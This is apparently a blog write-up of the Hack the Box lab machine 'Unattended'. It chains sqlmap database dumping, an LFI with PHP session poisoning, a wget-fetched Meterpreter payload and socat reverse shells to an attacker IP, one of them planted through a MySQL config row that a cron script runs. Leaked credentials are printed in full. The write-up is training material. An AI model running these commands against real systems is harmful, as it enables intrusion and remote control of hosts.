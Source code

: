 +++
author = "Nick"
categories = ["CTF", "mysql", "SQL Injection", "LFI", "PHP", "Linux", "metasploit", "reverse shell", "socat", "grub", "LUKS"]
date = 2019-08-24T15:06:00Z
description = ""
draft = false
thumbnail = "/images/2019/08/info-3.png"
slug = "hack-the-box-unattended"
summary = "Today we'll be stepping through the box Unattended. This was an interesting machine, most likely due to my poor VPN stability. Anyway, lets get to it!"
tags = ["CTF", "mysql", "SQL Injection", "LFI", "PHP", "Linux", "metasploit", "reverse shell", "socat", "grub", "LUKS"]
title = "Hack the Box - Unattended"

+++


Today we'll be stepping through the box Unattended. This was an interesting machine, most likely due to my poor VPN stability. Anyway, lets get to it!

As alwasy, the first thing we do is our standard nmap scan: ```nmap -sC -sV -oA unattended 10.10.10.126```. We get a pretty normal output. We see that the scan leaks a host name of nestedflanders.htb. We'll add that to our hosts file: ```bash echo "10.10.10.126     nestedflanders.htb" >> /etc/hosts```. 

We will head over to the web interface on the box and see what's there. We are greated with an Apache2 install landing. Normally, we would run dirb or gobuster against the domain to enumerate it but this time, we'll run [Nikto](https://github.com/sullo/nikto). We issue a standard ```nikto -host https://nestedflanders.htb``` and wait for our results. Often Nikto is slow but fairly comprehensive.

We see that there are two index files. A index.html and an index.php. If we head over to index.php we are greated with the man himself!

![](/images/2019/08/image-27.png)

As we explore the site, we see what could be a SQLi.

![](/images/2019/08/image-28.png)

We'll boot up SQLmap and see what we can find. We need sqlmap the page id: ```sqlmap -u https://nestedflanders.htb/index.php?=587 --dbs --threads 10```. We let nmap run and see what it enumerates.

![](/images/2019/08/image-29.png)

We see a database called neddy, lets check the tables within. ```sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -D neddy --tables --threads 10```

![](/images/2019/08/image-31.png)

We see there are some tables, but the tables 'filepath' sticks out, lets dump it. The reason that this one seems to be a first pick is because when it comes to filepaths and databases, we might be able to LFI our way in. We issue ```sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -D neddy --T filepath --dump --threads 10```.

![](/images/2019/08/image-32.png" caption="Our three entries. These are the same links listed on the page as well. Hmm...)

We see that our table has three entries. These are also the same values on the index.php as well. While looking at this table, we can see if pathing to the value gets us to this path.

![](/images/2019/08/image-33.png)

We see that this does indeed send us to the same page. We can test for injection manually to read a the hosts file. After googling around t[his page](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/) was a pretty great resource for this.

![](/images/2019/08/image-34.png" caption="This query results in the below.)

![](/images/2019/08/image-35.png" caption="We got an output!)

Now we are going to have to see if we can read the PHP Session file. We can do the same process as above but targeting our session file. That file is stored in /var/lib/php/sessions/sess_{ID}.

![](/images/2019/08/image-36.png)

![](/images/2019/08/image-37.png)

The goal here is to inject a reverse shell into this session file.  We can poc it by appending a small function at the end of our session value and reading it back

![](/images/2019/08/image-38.png" caption="Session poisoned.)

![](/images/2019/08/image-39.png" caption="Session called back with the same command above, but we see we have the whoami command output.)

Now that we know this will work, lets create a reverse shell. We'll do this with MSFPC so we can have a Meterpreter session. We will issue ```msfpc php``` and follow up our prompts.

![](/images/2019/08/image-40.png)

We will host a http server for our script. We will then inject the wget command to tell the system to download it from us.

![](/images/2019/08/image-41.png)

We see that the file was downloaded:

![](/images/2019/08/image-42.png)

Now we need to call the session via the LFI.

![](/images/2019/08/image-43.png)

And we see our Meterpreter session light up!

![](/images/2019/08/image-44.png)

We have a shell and we see there is only 1 users, guly. However, we are only www-data so we don't have rights to list her directory. We can look at all the items we have at our disposal. When we cat the index.php file we see some credentials:

![](/images/2019/08/image-45.png)

Awesome, we have some credentials. We continue our enumeration and see a file called check.pl in the /var/www directory. We download the file so we can see what it does. Seemingly executes items in 'checkrelease' when its called. We also know that the script is run every minute.

However, it doesn't seem that I can save anything in any normal place on the box. So lets see what the database looks like. ```echo "use neddy; select * from config"|mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e```

![](/images/2019/08/image-46.png)

This is interesting, so based on the perl script we saw that runs every minute, we can probably modify this value to reverse back to us. This machine doesn't have netcat on it, but we do have access to [socat](https://linux.die.net/man/1/socat).

We will start up a socat listener on our local machine ```socat file:`tty`,raw,echo=0 tcp-listen:80``` Then we'll tell our box to call home ```socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.197:80```

![](/images/2019/08/image-47.png" caption="Our socat has activated.)

Now lets see if we can access mysql in this shell. ```mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e```

![](/images/2019/08/image-48.png)

Lets updated ID 86 to call back to us again. ```UPDATE config SET option_value = "socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.197:443" where id = 86;```

This gives us a shell back as Guly, we have user.txt! When enum Guly's groups we see she is part of the grub group. We head to the boot directory and try to find some data here. We see that initrd.im-4.9.0-8-amd64 is owned by grub. We extract the image and see that it's encrypted. We can copy this to our local machine and simply sudo ./uninitrd c0m3s3f0ss34nt4n1. That gives us the key to unlock the drive and we have root!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

